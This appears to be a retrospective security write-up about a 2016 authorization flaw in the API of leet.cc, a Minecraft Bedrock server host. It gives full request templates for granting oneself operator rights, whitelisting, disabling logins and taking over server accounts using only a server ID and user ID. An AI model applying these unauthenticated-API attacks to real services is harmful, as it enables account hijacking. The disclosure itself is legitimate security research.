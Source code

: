```yaml
---
title: leet.cc account takeover (old bug)
---
```

The domain name 
`leet.cc` was an Minecraft bedrock server hosting provider. (Service seems to no longer exist)  
The following bug allowed getting OP just by knowing someone's server domain.

This bug is from 2016 the same time they had their database breached <https://news.softpedia.com/news/data-for-6-million-minecraft-gamers-stolen-from-leet-cc-servers-507445.shtml> where someone uploaded a PHP shell to their website... This is from memory I may get stuff wrong.

I would hope it's fixed now 🙂 but then this is `leet.cc`

# Methodology

Reverse engineer the Android app using online apk decompilers and look at the network traffic using <https://www.telerik.com/fiddler> to see if the API did authentication correctly.  
Credit: <https://www.youtube.com/watch?v=LbZqaLKS7V4>

Server IDs (Incremental number) are used to identify what server to act on for the API.  
This could be gotten easily by using `https://leet.cc/verifyServerDomain.php?domain=<domain>`  
The user ID which used to be optional was the user's email address or their device ID.

# The exploit

In order to exploit this one would make a request to:

`https://mainapi.leet.cc/actionNew.php?cmd=<command>&userID=<userID>&params[]=<serverID>&params[]=<commandParameter>&versionCode=176&password=something_secret&client=google-free&k=<Base 64 encoded MD5 Hash of part of the URL>&sys=<Base 64 encoded MD5 Hash of part of the URL>`
No one knows why `k` and `sys` were there.

And now the how to exploit FAQ 🙂

# I want OP!

- `<command>` is `changeOP`
- `<commandParameter>` is your in-game name

# I'm not whitelisted. What should I do?

- `<command>` is `changeWhitelistPlayers`
- `<commandParameter>` is your in-game name

# The server name is missing a duck emoji, no problem!

- `<command>` is `changeServerName`
- `<commandParameter>` is 🦆

# This old login using `/login <password>` is too annoying.

- Just set `setUserRegistration` to off!

# I wanted an account takeover!

Okay send a request to `https://mainapi.leet.cc/serverLogin.php?serverEmail=<attacker email>&serverPassword=<attacker password>&registerServerID=<serverId>&registerUserID=<userId>`
